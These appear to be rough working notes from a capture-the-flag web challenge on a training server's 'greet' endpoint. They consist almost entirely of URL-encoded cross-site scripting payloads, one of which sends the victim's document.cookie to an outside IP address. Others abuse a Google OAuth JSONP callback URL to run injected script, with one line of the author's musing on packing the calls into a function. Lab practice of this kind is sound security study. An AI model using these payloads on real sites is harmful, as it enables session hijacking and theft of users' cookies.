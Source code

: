 %3Cscript%3Evar+xhr%3Dnew+XMLHttpRequest%28%29%3Bxhr.open%28%27GET%27%2C%27http%3A%2F%2F68.183.28.210%3A8000%2F%27%2Bdocument.cookie%2Cfalse%29%3Bxhr.send%28%29%3B%3C%2Fscript%3E
https://accounts.google.com/o/oauth2/revoke?callback=alert($$$$);alert("wow");




http://offsec-chalbroker.osiris.cyber.nyu.edu:10002/greet?name=%3Cscript%20src=%22%22%3E%3C/script%3E

ok so seems like the callback only does one function... how to pack all the XML things into a function that I can call...

http://offsec-chalbroker.osiris.cyber.nyu.edu:10002/greet?name=%3Cscript%20src=%22https://accounts.google.com/o/oauth2/revoke?callback=%3Cscript%3Ealert(document.cookie);alert(%22wow%22);%22%3E%3C/script%3E

http://offsec-chalbroker.osiris.cyber.nyu.edu:10002/greet?name=%3Cscript%20src=%22https://accounts.google.com/o/oauth2/revoke?callback=alert(document.cookie);alert(leet)%22%3E%3C/script%3E